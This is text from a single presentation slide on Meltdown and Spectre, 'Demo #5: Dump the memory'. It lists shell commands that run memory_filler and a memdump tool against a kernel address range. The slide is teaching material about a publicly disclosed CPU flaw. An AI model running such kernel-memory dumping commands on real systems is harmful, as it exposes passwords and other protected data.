

A Demo

Demo #5: Dump the memory (memdump)

./memory_filler 9

taskset 0x1 ./memdump 0x240000000 -1 0xffff880000000000

海量数据
Mar  8, 2018
Meltdown & Spectre
18

Part 4